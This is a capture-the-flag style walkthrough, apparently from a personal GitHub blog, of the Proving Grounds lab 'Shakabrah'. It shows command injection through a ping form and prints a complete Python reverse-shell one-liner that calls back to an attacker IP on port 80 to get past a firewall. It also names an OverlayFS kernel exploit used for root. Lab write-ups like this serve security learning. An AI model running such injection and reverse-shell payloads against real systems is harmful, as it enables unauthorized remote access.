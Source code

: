 * * *
 ### LAB: SHAKABRAH
 ### PLATFORM: PROVING GROUNDS
* * *

### Enumeration:
- Rustscan's details

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d4137a85-bd12-48cf-bdbe-8a90aefac3be)

- I did not fuzz for directories because the index page allows users to ping an ip address with the linux ping tool,I sensed that it
might using php `system() method`,we can use it to our advantage by closing the ping statement with a semicolon and executing a rev shell
e.g `;ls`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3eed71ac-bfa3-46e0-9237-d02570cd72a9)

- Popping a rev shell was bit tough because the server filters connectionn on other ports,I had to pop a shell through via port 80 to bypass
the firewall restriction
 `;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.214",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

- Now we have stabilizd rev shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/81c2962b-0f7a-4659-b513-264aa01e7c1e)

 ### PRIVESC

 -  I was able to escalate privileges with the Overlayfs kernel exploit because of the vulnerable Ubuntu version

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/05756031-0299-44c7-b6b0-09d64ce4cc95)

- 
  
